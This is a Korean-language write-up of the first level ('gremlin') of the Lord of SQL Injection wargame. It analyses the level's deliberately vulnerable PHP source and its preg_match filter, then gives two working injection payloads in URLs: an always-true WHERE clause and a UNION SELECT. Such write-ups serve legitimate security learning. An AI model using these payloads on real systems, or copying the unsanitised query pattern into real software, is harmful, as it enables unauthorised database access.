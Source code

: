 # Lord of SQL Injection No.1 - gremlin

## 문제 출제 의도

기본적인 SQL Injection을 통해 SQL문을 조작할 수 있는지 확인한다.

## 소스 코드 분석

gremlin 문제의 php 소스 코드는 다음과 같다.
```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```
-----

```php
  include "./config.php";
  login_chk();
  dbconnect();
```
* config.php 파일을 불러와 적용시킨다. config.php 내부에 login_chk(), dbconnect(), solve() 등 문제 풀이 환경과 관련된 함수가 선언되어 있을 것으로 추정할 수 있다.

* login_chk() 함수는 로그인 된 상태인지 확인하는 기능을 할 것으로 추정할 수 있다.

* dbconnect() 함수는 데이터베이스에 연결하는 기능을 할 것으로 추정할 수 있다.

## include
* php의 include에 대해 잘 모르겠다면 다음 링크를 참고하자.

* [PHP: include - Manual](http://php.net/manual/kr/function.include.php)

-----

```php
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
```
* GET방식으로 id와 pw를 받으며, id나 pw에 `prob`, `_`, `.`, `()` 가 들어 있으면 `No Hack ~_~`이 뜨고 문제 풀이에 실패한다.

## preg_match
```php
int preg_match ( string $pattern , string $subject [, array &$matches [, int $flags [, int $offset ]]] )
```
* preg_match 함수는 문자열에서 정규표현식 매치를 수행한다.

* 반환값은 매치된 횟수이며, 0 또는 1 이다. 이는 처음 매치 후 검색을 중지하기 때문이다.

* 따라서 `preg_match('/prob|_|\.|\(\)/i', $_GET[id])` 는 `$_GET[id]`에서 정규표현식 `'/prob|_|\.|\(\)/i'` 을 매치한다.

* 즉, `if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");` 이 문장을 통해 `$_GET[id]`에 `prob`, `_`, `.`, `()` 중 하나라도 들어 있으면 `No Hack ~_~`이 뜨고 문제 풀이에 실패한다.

* php의 preg_match 함수에 대해 잘 모르겠다면 다음 링크를 참고하자.
    * [PHP: preg_match - Manual](http://php.net/manual/kr/function.preg-match.php)

## 정규 표현식 (Regular Expression)
* 정규 표현식은 특정한 규칙을 가진 문자열의 집합을 표현하는 데 사용하는 형식 언어이다.

* 정규 표현식에 대해 잘 모르겠다면 다음 링크를 참고하자.
    * [정규 표현식 - 위키백과](https://ko.wikipedia.org/wiki/%EC%A0%95%EA%B7%9C_%ED%91%9C%ED%98%84%EC%8B%9D)
    * [정규 표현식 테스트 사이트 RegExr](http://regexr.com/)

-----

```php
$query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
echo "<hr>query : <strong>{$query}</strong><hr><br>";
$result = @mysql_fetch_array(mysql_query($query));
if($result['id']) solve("gremlin");
```
* 받은 id와 pw가 직접 쿼리에 들어간다. 이것으로 SQL Injection 공격이 가능하다는 것을 알 수 있다.

* 문제 풀이가 성공하는 조건은 '데이터베이스에서 받은 id에 "0"을 제외한 어떤 문자열이든 들어있음'이다.

-----

## Solution
    
1. WHERE 조건절 무력화

    GET 방식으로 정보를 전송하기 위해 다음과 같이 URL의 맨 끝에 쿼리 스트링을 붙인다.

    ```
    http://los.eagle-jump.org/gremlin_bbc5af7bed14aa50b84986f2de742f31.php?id=' or 1=1 -- -
    ```

    ```sql
    select id from prob_gremlin where id='' or 1=1 -- -' and pw=''
    ```

    이는 WHERE 조건절을 항상 참으로 만들어 prob_gremlin 테이블의 모든 행의 id 열을 불러오도록 하므로 문제가 풀린다.

2. UNION 구문 이용

    ```
    http://los.eagle-jump.org/gremlin_bbc5af7bed14aa50b84986f2de742f31.php?id=' union select 'a'-- -
    ```
    ```sql
    select id from prob_gremlin where id='' union select 'a'-- -' and pw=''
    ```

    이는 결국 $result['id']에 'a'가 들어가도록 하므로 문제가 풀린다.
